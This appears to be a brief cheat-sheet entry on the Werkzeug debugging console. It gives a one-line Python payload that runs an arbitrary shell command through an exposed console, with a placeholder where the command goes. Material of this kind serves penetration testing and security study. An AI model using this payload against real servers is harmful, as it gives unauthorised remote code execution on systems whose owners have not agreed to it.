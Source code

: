 ### Werkzeug console

Description: A vulnerable debugging console

Run a command in the console: `import os; print(os.popen("[command]").read())`